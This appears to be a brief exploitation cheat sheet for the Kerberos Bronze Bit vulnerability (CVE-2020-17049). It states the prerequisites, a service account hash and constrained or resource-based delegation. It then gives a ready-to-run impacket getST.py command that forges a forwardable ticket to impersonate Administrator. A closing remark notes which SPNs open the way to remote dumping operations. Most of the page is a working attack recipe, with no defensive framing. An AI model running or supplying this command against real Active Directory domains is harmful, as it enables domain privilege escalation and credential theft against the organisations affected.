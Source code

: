 # Kerberos Bronze Bit CVE-2020-17049

### An attacker can impersonate users which are not allowed to be delegated. This includes members of the Protected Users group and any other users explicitly configured as sensitive and cannot be delegated.

## WARNING! Patched Error Message : [-] Kerberos SessionError: KRB_AP_ERR_MODIFIED(Message stream modified)

## Requirements

#### 1) Service account's password hash

#### 2) Service account's with Constrained Delegation or Resource Based Constrained Delegation

## Exploitation

 - getST.py -force-forwardable -spn $Target_SPN -impersonate Administrator -dc-ip $Domain_controller -hashes :$Controlled_service_NThash $Domain/$Controlled_service_account

### The SPN (ServicePrincipalName) set will have an impact on what services will be reachable. For instance, cifs/target.domain or host/target.domain will allow most remote dumping operations
